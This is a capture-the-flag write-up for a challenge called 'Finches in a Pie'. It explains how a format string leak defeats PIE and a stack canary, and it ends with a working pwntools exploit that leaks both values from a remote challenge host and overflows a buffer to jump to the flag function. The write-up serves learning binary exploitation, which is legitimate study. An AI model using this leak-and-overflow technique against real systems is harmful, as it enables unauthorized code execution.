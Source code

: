 # Finches in a Pie
 
Very similar to FIAS, so I won't explain the parts about a stack canary.

This time, there's PIE. 

What changes? What changes is that the address of our ever-so-important flag function changes every time. 

What we need to do is leak a value on the stack that we can calculate the binary base from.

We're in luck. When a function is called, the address of the instruction for it to ret to is placed on the top of the stack.

This means if the value isn't later overwritten, the addresses of some instructions, including instructions of functions of the binary, will remain on the stack.

So? So, we can leak an instruction of a function in the binary, and calculate the base off of this. 

I chose stack item 3, the address of the instruction in say_hi after it calls the pc_get_thunk function.
Our exploit:

Leak canary and binary base in one go with format string
Send junk + canary + junk + flag address
Script below:
```python
from pwn import *
import re
e = ELF("./fiap")
#p = e.process()
p = remote('95.216.233.106',22951)
p.clean()
leak = "%3$p.%11$p"
p.sendline(leak)
output = p.recvline().decode()
leaks = re.findall("Thank you, (.*)!", output)[0].split('.')
leaks = list(map(lambda x: int(x,16), leaks)) 
e.address = leaks[0] -  0x0000128f
canary = leaks[1]
log.info(f"Binary base: {hex(e.address)}")
log.info(f"Canary: {hex(canary)}")
padding = b'A' * 25
payload = flat(padding, canary, b'A' * 12, e.symbols['flag'])
p.sendline(payload)
p.interactive()
```
